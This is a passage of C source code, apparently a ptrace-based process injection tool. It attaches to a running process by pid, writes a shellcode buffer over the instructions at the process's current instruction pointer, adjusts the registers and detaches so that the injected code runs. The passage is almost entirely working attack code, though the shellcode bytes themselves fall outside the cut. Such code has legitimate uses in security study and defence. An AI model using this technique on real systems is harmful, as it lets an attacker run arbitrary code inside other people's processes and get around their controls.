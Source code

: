 ```bash
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
```